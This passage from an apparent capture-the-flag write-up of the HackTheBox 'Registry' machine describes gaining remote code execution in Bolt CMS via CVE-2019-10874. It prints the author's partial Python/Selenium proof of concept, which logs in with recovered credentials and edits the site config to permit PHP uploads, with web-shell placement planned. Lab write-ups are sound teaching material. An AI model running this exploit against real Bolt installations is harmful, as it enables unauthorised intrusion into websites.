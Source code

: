 And we find out that all standing between us and a successful login previously was the credentials `Admin:strawberry`. Logging in and looking around, we learn that the installed version is vulnerable to an [authenticated remote code execution](https://fgsec.net/from-csrf-to-rce-bolt-cms/). Remembering the mental note about the previous backup script, the battle plan is as follows: Use the remote code execution vulnerability to gain access in Bolt as `www-data` user, maybe by installing a web shell for better persistence, and gain access to `restic `from there. Hopefully, this will bring us a step closer to compromising the backup files it handles.However, trying out the proof-of-concept code does not yield success as the stager payload keeps getting deleted. Maybe a bug in the researcher's code, perhaps something specific to the system. Or just me fat-fingering this, but I tried *really hard* for a good hour. At this point, let's just learn the internals of the exploit and reimplement a better proof-of-concept in Python.So here is my PoC for [CVE-2019-10874](https://nvd.nist.gov/vuln/detail/CVE-2019-10874):

```python
from pathlib import Path

import requests
from selenium import webdriver
from selenium.webdriver.common.action_chains import ActionChains
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.firefox.options import Options

COMMAND = "<stuff here>"
USERNAME = "admin"
PASSWORD = "strawberry"
PAYLOAD_NAME = "payload.php"
PAYLOAD_PATH = str(Path(PAYLOAD_NAME).absolute())
TARGET = "http://registry.htb"
BOLT_URL = TARGET + "/bolt/bolt"

LOGIN_URL = BOLT_URL + "/login"
CONFIG_URL = BOLT_URL + "/file/edit/config/config.yml"
UPLOAD_URL = BOLT_URL + "/files"
PAYLOAD_URL = TARGET + "/bolt/files/" + PAYLOAD_NAME

options = Options()
options.headless = True
client = webdriver.Firefox(options=options)
client.get(LOGIN_URL)

username_element = client.find_element_by_id("user_login_username")
password_element = client.find_element_by_id("user_login_password")
form_btn_element = client.find_element_by_id("user_login_login")

username_element.clear()
username_element.send_keys(USERNAME)
password_element.clear()
password_element.send_keys(PASSWORD)

print("[+] Logging in as", USERNAME)
form_btn_element.click()

# post config with php extension
client.get(CONFIG_URL)
fileedit_element = client.find_element_by_css_selector('.CodeMirror textarea')
form_btn_element = client.find_element_by_id("file_edit_save")

print("[+] Replace xlsx -> php")
actions = ActionChains(client)
actions.move_to_element(fileedit_element)
actions.click()
actions.key_down(Keys.CONTROL).send_keys('h').key_up(Keys.CONTROL)
actions.send_keys("xlsx").send_keys(Keys.RETURN).send_keys("php")
```